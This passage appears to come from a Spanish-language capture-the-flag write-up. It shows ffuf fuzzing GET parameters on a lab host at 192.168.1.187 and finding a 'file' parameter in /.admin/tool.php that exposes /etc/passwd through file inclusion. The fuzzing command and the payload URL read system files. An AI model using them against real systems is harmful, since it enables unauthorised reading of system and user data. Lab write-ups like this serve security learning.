 Al no encontrar resultados con el fuzzing de parámetros POST, procedimos a realizar el fuzzing de parámetros GET.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?FUZZ=/etc/passwd" -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 0
```

![ffuf-get](../../../assets/images/zerotrace/ffuf-get.png)

Encontramos el parámetro `file`. Al acceder a la URL `/.admin/tool.php?file=/etc/passwd` podemos ver el contenido del archivo `/etc/passwd` que contiene la lista de usuarios del sistema.
